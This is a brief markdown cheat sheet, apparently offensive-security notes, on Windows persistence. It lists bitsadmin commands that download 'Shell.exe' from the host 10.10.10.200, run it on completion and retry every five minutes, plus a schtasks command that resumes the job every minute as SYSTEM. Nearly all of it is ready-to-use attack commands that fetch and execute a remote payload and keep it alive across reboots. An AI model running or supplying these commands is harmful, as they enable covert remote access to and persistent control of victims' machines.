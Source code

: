 # BITS

### 1) BITS

##### Create BITS Job

    bitsadmin /create Shell

##### Point to URL of shell

    bitsadmin /addfile Shell "http://10.10.10.200/Shell.exe" "C:\Windows\Temp\Shell.exe"

##### Set Command

    bitsadmin /SetNotifyCmdLine Shell C:\Windows\Temp\Shell.exe NUL

##### Set to run every 5 minutes on transient error

    bitsadmin /SetMinRetryDelay "Shell" 300

##### Resume job

    bitsadmin /resume Shell

BITS jobs will also run again after a reboot when the user it was created under logs in again.

### 2) Schtasks

    schtasks /create /tn "BitsJob" /sc minute /mo 1 /ru SYSTEM /tr "C:\Windows\System32\bitsadmin.exe /resume "\Shell\""
